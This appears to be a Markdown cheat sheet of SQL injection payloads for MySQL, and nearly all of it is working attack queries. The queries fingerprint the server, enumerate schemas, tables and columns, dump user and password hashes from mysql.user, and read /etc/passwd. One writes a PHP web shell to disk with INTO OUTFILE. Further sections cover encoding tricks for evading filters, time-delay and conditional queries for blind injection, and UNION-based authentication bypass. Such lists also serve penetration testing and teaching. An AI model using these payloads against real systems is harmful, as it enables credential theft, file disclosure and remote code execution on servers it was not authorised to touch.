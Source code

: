 # SQL Injection - MySQL

## Exploiting

### 1. Common information
```
SELECT version()
SELECT @@version
SELECT user()
SELECT system_user()
SELECT database()
SELECT @@datadir
SELECT @@hostname
```

### 2. Database name
```
SELECT schema_name FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata WHERE schema_name=database()
```

### 3. Table names
```
SELECT table_name FROM information_schema.tables
SELECT table_name FROM information_schema.tables WHERE table_schema=database()
```

### 4. Column names
```
SELECT column_name FROM information_schema.columns
SELECT column_name FROM information_schema.columns WHERE table_name='user'
SELECT column_name FROM information_schema.columns WHERE table_name='user' AND table_schema='mysql'
```

### 5. Dump data
```
SELECT user,password FROM user
SELECT user,password FROM mysql.user
```

### 6. Reading files:
```
SELECT load_file('/etc/passwd')
```

### 7. Writing files:
```
SELECT '<?php system($_GET[0]);?>' INTO OUTFILE('/tmp/test.php')
SELECT '<?php system($_GET[0]);?>' INTO DUMP FILE('/tmp/test.php')
```

### 8. MySQL user
```
SELECT user,password FROM mysql.user
SELECT host,user,password FROM mysql.user
```

## Tricks

### 1. Strings:
```
SELECT user,password FROM mysql.user WHERE user='root'
SELECT user,password FROM mysql.user WHERE user=0x726f6f74
SELECT user,password FROM mysql.user WHERE user=char(0x72,0x6f,0x6f,0x74)
SELECT user,password FROM mysql.user WHERE user=char(114, 111, 111, 116)
```

### 2. Concat
```
SELECT concat(user, 0x3a, password) FROM mysql.user
SELECT concat(user, 58, password) FROM mysql.user
```

### 3. Substring
```
SELECT substr(user, 1, 1) FROM mysql.user
SELECT substring(user, 1, 1) FROM mysql.user
```

### 4. Select Nth row
```
SELECT host,user,password FROM mysql.user ORDER BY host LIMIT 1 OFFSET 0
SELECT host,user,password FROM mysql.user ORDER BY host LIMIT 1 OFFSET 1
```

### 5. Time Delay
```
SELECT SLEEP(5)
SELECT BENCHMARK(1000000,MD5(‘A’))
```

### 6. If Statement
```
SELECT IF(1=1, 'foo', 'bar')
SELECT IF(1=2, 'foo', 'bar')
```

## Other

### 1. Bypass authentication
```
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT 'test'
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT md5('test')
SELECT password FROM mysql.user WHERE user='root' AND 1=2 UNION SELECT sha1('test')
```
